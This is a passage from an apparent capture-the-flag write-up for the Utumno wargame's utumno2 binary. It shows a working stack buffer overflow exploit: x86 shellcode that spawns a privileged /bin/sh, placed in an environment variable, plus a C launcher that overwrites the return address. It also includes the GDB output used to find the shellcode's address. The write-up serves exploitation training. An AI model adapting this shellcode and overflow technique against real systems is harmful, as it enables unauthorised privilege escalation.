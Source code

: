 The return address was overwritten with **0x45454545** which is **EEEE**. This means there is an offset of 16-bytes before overwriting the return address.

To finish the exploit, we need to put shellcode somewhere on the stack where we can return to. To do this, we can just put it into the environment variable pointer before our overflow payload.

```c
#include <unistd.h>

int main(){
    char *argv[] = {NULL};

    char *envp[] = {"", "", "", "", "", "", "",
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80",
    "AAAABBBBCCCCDDDDXXXX",
    NULL};

    execve("/utumno/utumno2", argv, envp);
}
```
I used 20 **NOPs** just as a buffer between any other data on the stack and the shellcode and shellcode that spawns a shell via `execve("/bin/sh", ["/bin/sh", "-p"])` to maintain privileges.

To locate the address of the shellcode on the stack, we can compile the new binary and run it in **GDB-GEF**. When the binary **segfaults**, we can use the command `x/20s *environ` to locate the address of the shellcode.

```bash
gef>  x/20s *environ
0xffffdf96:     ""
0xffffdf97:     ""
0xffffdf98:     ""
0xffffdf99:     ""
0xffffdf9a:     ""
0xffffdf9b:     ""
0xffffdf9c:     ""
0xffffdf9d:     '\220' <repeats 20 times>, "1\300Ph//shh/bin\211\343Pfh-p\211\341PQS\211\3411Ұ\v̀"
0xffffdfd3:     "AAAABBBBCCCCDDDDXXXX"
```
The address of where the shellcode is located on the stack is **0xffffdf9d**, so we can replace the **XXXX** in the overflow payload with the address, compile the binary, and run it to get a shell.

```c
#include <unistd.h>

int main(){
    char *argv[] = {NULL};

    char *envp[] = {"", "", "", "", "", "", "",
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80",
    "AAAABBBBCCCCDDDD\x9d\xdf\xff\xff",
    NULL};

    execve("/utumno/utumno2", argv, envp);
}
```
